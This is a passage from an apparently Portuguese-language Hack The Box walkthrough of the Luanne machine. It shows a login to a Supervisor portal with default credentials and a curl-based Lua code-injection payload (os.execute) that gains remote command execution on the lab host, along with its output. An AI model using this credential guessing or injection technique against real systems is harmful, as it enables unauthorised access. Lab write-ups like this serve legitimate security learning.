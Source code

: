 ```bash
```

Embora seja possível consultar as informações nesta API, não consegui identificar nenhum detalhe adicional de como converter essa API de consulta para alguma execução remota de código e decidi seguir para o próximo serviço disponível nesta máquina.

### 9001/TCP - Serviço HTTP

Buscando por `Medusa httpd 1.12 (Supervisor process manager)` encontrei que o serviço provavelmente se trata da aplicação [**Supervisor**](https://github.com/Supervisor/supervisor). Buscando pelas credenciais padrão na página do projeto encontrei **user:123**, as quais permitiram o acesso no portal e exibiu a página abaixo:

![HTB Luanne - Supervisor](https://i.imgur.com/2fSp0Lx.png){: .align-center}

Com isso podemos observar que a versão do supervisor em execução é  a **4.2.0**, que em uma busca rápida não retornou nenhuma vulnerabilidade conhecida.

Clicando em cada um dos recursos disponíveis, um item interessante chamou atenção: o link **processes**. Ao acessar as informações ali disponíveis um processo em execução na máquina chamou atenção, frente ao que identificamos no item anterior:

```plaintext
_httpd 376 0.0 0.0 34956 2020 ? Is 5:56AM 0:00.13 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U _httpd -b /var/www
```

Pelo que pudemos identificar a API que estivemos consultando a pouco publicada na porta 80/TCP se trata de um aplicativo desenvolvido em [LUA](https://www.lua.org/start.html), uma linguagem de programação desenvolvida pela Universidade PUC-RJ.

## Acesso inicial

Uma vez que sabemos que a API é desenvolvida em LUA, após algumas pesquisas, encontrei [este artigo](https://www.syhunt.com/en/index.php?n=Articles.LuaVulnerabilities) que descreve algumas formas de explorar aplicações escritas em LUA a partir de code injection e, após alguns testes, consegui algo que poderia nos levar a um acesso inicial nesta máquina.

:bulb: **Note**: O segredo está na codificação do conteúdo passado nos requests, logo, a forma mais simples encontrada foi utilizar o próprio `curl` com alguns parâmetros conforme listado abaixo, simplificando o processo de *escaping* dos caracteres utilizados no payload.:
{: .notice--info}

A injeção final, que permitiu execução remota de código na máquina foi o resultado abaixo:

```bash
$ curl -G --data-urlencode "city=London') os.execute('ls -la') x=('" http://10.10.10.218/weather/forecast
{"code": 500,"error": "unknown city: Londontotal 20
drwxr-xr-x 2 root wheel 512 Nov 25 11:27 .
drwxr-xr-x 24 root wheel 512 Nov 24 09:55 ..
-rw-r--r-- 1 root wheel 47 Sep 16 15:07 .htpasswd
-rw-r--r-- 1 root wheel 386 Sep 17 20:56 index.html
-rw-r--r-- 1 root wheel 78 Nov 25 11:38 robots.txt
```
